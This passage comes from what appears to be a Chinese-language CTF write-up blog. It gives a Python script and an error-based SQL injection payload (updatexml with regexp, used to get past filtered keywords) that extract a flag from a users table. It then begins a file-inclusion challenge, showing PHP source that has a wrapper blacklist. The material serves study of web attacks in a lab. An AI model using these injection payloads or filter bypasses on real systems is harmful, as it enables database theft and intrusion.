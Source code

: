 ```python
sql = '''1"&&updatexml(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('flag')),0x7e),1)#'''
#sql = '''1"&&updatexml(1,concat(0x7e,(select(replace((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('flag')),'flag{fc0fbd0f-1d9b-48ef-9fbb-5d',''))),0x7e),1)#'''
register(sql)
login(sql)
changepwd()
```

这里说一下 payload

```
1"&&updatexml(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('flag')),0x7e),1)#
```

直接查询 `real_flag_1s_here` 的内容会返回一堆无关数据, 而且 like rlike 这些会被过滤, 但好在 regexp 没有被过滤

然后写的时候注意括号不要闭合错了

最后运行脚本得到 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209161157540.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209161157906.png)

## [CISCN2019 华北赛区 Day1 Web5]CyberPunk

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209171146956.png)

右键源代码

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209171146133.png)

猜测是文件包含

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209171147361.png)

把 php 都下载下来

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209171147634.png)

index.php

```php
<?php

ini_set('open_basedir', '/var/www/html/');

// $file = $_GET["file"];
$file = (isset($_GET['file']) ? $_GET['file'] : null);
if (isset($file)){
    if (preg_match("/phar|zip|bzip2|zlib|data|input|%00/i",$file)) {
        echo('no way!');
        exit;
    }
    @include($file);
}
?>
```
